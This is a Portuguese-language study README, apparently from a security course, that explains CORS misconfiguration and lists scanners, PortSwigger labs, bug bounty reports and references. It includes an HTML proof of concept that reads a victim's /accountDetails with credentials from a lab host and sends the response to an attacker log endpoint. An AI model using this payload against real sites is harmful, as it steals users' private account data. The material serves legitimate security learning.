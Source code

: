 # CORS Misconfiguration - Fórum Técnico de Privacidade

## O que é o CORS?

O padrão CORS (Cross-origin resource sharing) é necessário porque permite que os servidores especifiquem quem pode acessar seus ativos e quais métodos de solicitação HTTP são permitidos a partir de recursos externos.

Uma política de mesma origem requer que tanto o servidor que solicita um recurso quanto o servidor onde o recurso está localizado usem o mesmo protocolo (http://), nome de domínio (internal-web.com) e a mesma porta (80). Então, se o servidor forçar a política de mesma origem, apenas as páginas da web do mesmo domínio e porta poderão acessar os recursos.

O exemplo que foi utilizado foi o basic origin reflection que pega os dados de um site e redireciona para o site do atacante, com isso os dados pessoais ou sensiveis vão para um servidor diferente do original de forma que se reflete tudo que é acessado por um link especifico.

[Apresentação 06/04/23](https://docs.google.com/presentation/d/1w9SqP6dUJggXe67ZAZvJ8MmZoUFOkiP0_AwaTiurOLA/edit?usp=sharing)

## Ferramentas legais para ser utilizadas 🔧

* [CORS Scanner](https://github.com/chenjj/CORScanner)
* [Nuclei](https://github.com/projectdiscovery/nuclei)
* [Corsy - CORS Misconfiguration Scanner](https://github.com/s0md3v/Corsy)

## HTML utilizado

```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

## Labs para estudo 🔬

* [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
* [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
* [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
* [CORS vulnerability with internal network pivot attack](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)

## Bug Bounty reports 📈

* [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
* [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
* [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
* [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
* [[██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)

## References

* [Think Outside the Scope: Advanced CORS Exploitation Techniques - @Sandh0t - May 14 2019](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
* [Exploiting CORS misconfigurations for Bitcoins and bounties - James Kettle | 14 October 2016](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [Exploiting Misconfigured CORS (Cross Origin Resource Sharing) - Geekboy - DECEMBER 16, 2016](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
* [Advanced CORS Exploitation Techniques - Corben Leo - June 16, 2018](https://www.corben.io/advanced-cors-techniques/)
* [PortSwigger Web Security Academy: CORS](https://portswigger.net/web-security/cors)
* [CORS Misconfigurations Explained - Detectify Blog](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
* [CORS Misconfiguration PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CORS%20Misconfiguration/README.md#exploitation)
